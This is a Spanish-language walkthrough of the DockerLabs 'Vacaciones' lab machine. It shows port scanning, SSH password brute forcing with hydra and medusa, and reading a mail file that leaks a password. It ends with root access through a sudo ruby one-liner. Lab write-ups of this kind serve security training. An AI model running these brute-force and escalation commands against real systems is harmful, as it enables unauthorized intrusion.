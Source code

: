 Lo primero que tenemos que hacer, es ir a la pagina de "dockerlabs.es" y bajarnos la maquina "Vacaciones".
Una vez hecho y COMO SIEMPRE, descomprimimos el archivo, e inicializamos la maquina con el comando:
```
sudo bash auto_deploy.sh vacaciones.tar
```
Lo primero de todo, tras desplegarse la maquina, es hacer un NMAP. No necesitamos hacer un ARP-SCAN (o NETDISCOVER), porque ya sabemos la IP de la maquina victima.
```
nmap -p- --open -sCV -sS --min-rate 5000 172.17.0.2 -n -Pn -vvv
```
Una vez terminado, vemos que tiene 2 puertos abiertos:
```
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
```
En este caso, empezaremos por el puerto 80 ya que no tenemos ningun usuario ni nada, por lo que es conveniente ver si en la pagina, existe alguna informacion "util".
Para ello, introducimos la IP en el navegador y nos sale una pagina en blanco.
Sin embargo, al presionar "CTRL + U" vemos que aparece lo siguiente:
```
<!-- De : Juan Para: Camilo , te he dejado un correo es importante... -->
```
Viendo esto, se puede deducir que tenemos 2 posibles usuarios por lo haremos un ataque de fuerza bruta con HYDRA para ver si conseguimos alguna contraseña y poder entrar despues por el puerto 22 (SSH).
Para ello escribimos en el terminal bien con HYDRA o bien con MEDUSA:
```
hydra -l juan,camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2

medusa -h 172.17.0.2 -u camilo,juan -P /usr/share/wordlists/rockyou.txt -M ssh
	-h = direccion IP
	-u = usuarios separados por una ","
	-M = tipo de modulo
```
Una vez terminado, vemos que "camilo" tiene la contraseña "password1":
```
ACCOUNT FOUND: [ssh] Host: 172.17.0.2 User: camilo Password: password1 [SUCCESS]
```
con lo que ahora intentaremos entrar mediante el protocolo SSH y el comando:
```
ssh camilo@172.17.0.2
```
Nos pedira aceptar con un "yes" y luego meter la contraseña obtenida. Et voila, ya estamos dentro. Ahora escribimos el comando "script /dev/null -c bash" y vemos:
```
$ script /dev/null -c bash
Script started, file is /dev/null

camilo@2e6f164a589f:~$
```
Ya dentro del usuario "camilo" probaremos a escribir "sudo -l" para intentar la escalada de privilegios, pero recibimos por la terminal el siguiente mensaje, tras meter la contraseña:
```
Sorry, user camilo may not run sudo on 2e6f164a589f.
```
Como hemos llegado a un callejon sin salida, probaremos con el comando "find / -perm -4000 2>/dev/null" obteniendo una pequeña lista de binarios:
```
camilo@2e6f164a589f:/var/mail/camilo$ find / -perm -4000 2>/dev/null

/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/sudo
/bin/su
/bin/mount
/bin/umount
```
Desgraciadamente, tras buscar en "gtfobins" y no encontrar ningun camino para continuar, buscaremos alguna otra pista por los directorios de la maquina victima y nos fijamos si hay algo interesante.
Como tenemos un usuario "juan", "camilo" y "pedro", miraremos si hay alguna mencion a ellos y vemos lo siguiente tras ejecutar el comando: find / -name "NOMBREUSUARIO" como se ve a continuacion:
```
camilo@2e6f164a589f:/$ find / -name "camilo" 2>/dev/null
/home/camilo
/var/mail/camilo  <==== Esto parece un correo, asi que lo comprobamos

camilo@2e6f164a589f:/$ find / -name "juan" 2>/dev/null
/home/juan

camilo@2e6f164a589f:/$ find / -name "pedro" 2>/dev/null
/home/pedro

camilo@2e6f164a589f:/$ 
```
Como se observa, hay un archivo/directorio llamado "/var/mail/camilo" por lo que iremos a la carpeta "/var/mail" y veremos que es exactamente:
```
cd /var/mail

camilo@2e6f164a589f:/var/mail$ ls
camilo  <=== Vemos que es una carpeta

camilo@2e6f164a589f:/var/mail$ cd camilo  <=== Cambiamos a la carpeta "camilo"
camilo@2e6f164a589f:/var/mail/camilo$
```
Tras llegar a la carpeta "camilo", hacemos un "ls -la" y el terminal nos muestra lo siguiente:
```
camilo@2e6f164a589f:/var/mail/camilo$ ls -la
total 12
drwxr-sr-x 2 root mail 4096 Apr 25 08:13 .
drwxrwsr-x 1 root mail 4096 Apr 25 08:13 ..
-rw-r--r-- 1 root mail  144 Apr 25 08:13 correo.txt
```
Hora de hacer un "cat" al archivo y vemos que en su interior hay un mensaje donde el usuario "juan" deja su contraseña al usuario "camilo":
```
Hola Camilo,

Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb
```
Teniendo la contraseña de juan, cambiaremos de usuario y probaremos a hacer una escalada de privilegios desde dicho usuario.
```
camilo@2e6f164a589f:/var/mail/camilo$ su juan
Password: 2k84dicb
```
Y ya estamos dentro del usuario "juan", por lo que ahora pondremos de nuevo el comando "script /dev/null -c bash" para obtener su prompt:
```
$ script /dev/null -c bash
Script started, file is /dev/null

juan@2e6f164a589f:/var/mail/camilo$
```
Ahora probamos a escalar privilegios con este "nuevo" usuario mediante el tipico comando "sudo -l", y nos daria el siguiente resultado por pantalla:
```
juan@2e6f164a589f:/var/mail/camilo$ sudo -l

Matching Defaults entries for juan on 2e6f164a589f:
    env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User juan may run the following commands on 2e6f164a589f:
    (ALL) NOPASSWD: /usr/bin/ruby
```
Vemos que con el binario "/usr/bin/ruby" tenemos permisos, asi que vamos a "gtfobins" y buscamos "ruby". Ahora vamos a su apartado "sudo" donde podemos ver lo siguiente:
```
sudo ruby -e 'exec "/bin/sh"'
```
Ejecutamos dicho comando CON LA RUTA COMPLETA "/usr/bin/ruby" y...:
```
juan@2e6f164a589f:/var/mail/camilo$ sudo /usr/bin/ruby -e 'exec "/bin/sh"'

# whoami
root
#
```
como se puede ver, ya somos usuarios "root". Aun asi, si escribimos:
```
bash -p
```
obtendriamos un prompt diferente y algo mas "normal" tal y como se puede ver aqui abajo:
```
bash-5.1# whoami
root
bash-5.1#
```
Y ahora si, ya habriamos terminado.


